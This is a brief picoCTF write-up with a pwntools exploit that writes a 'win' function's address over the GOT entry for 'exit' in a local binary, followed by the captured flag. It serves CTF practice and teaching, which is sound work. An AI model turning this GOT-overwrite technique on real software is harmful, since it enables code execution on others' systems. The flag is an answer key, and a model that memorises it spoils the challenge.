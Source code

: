 # 🔑 Write-Up

The solution is the same as the previous challenge (no joke).

```python
from pwn import *

context.binary = "./vuln"
p = process()

p.sendline(str(context.binary.got["exit"]).encode("ascii"))
p.sendline(str(context.binary.functions["win"].address).encode("ascii"))
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

### 🚩 Flag

```plain
picoCTF{A_s0ng_0f_1C3_and_f1r3_e122890e}
```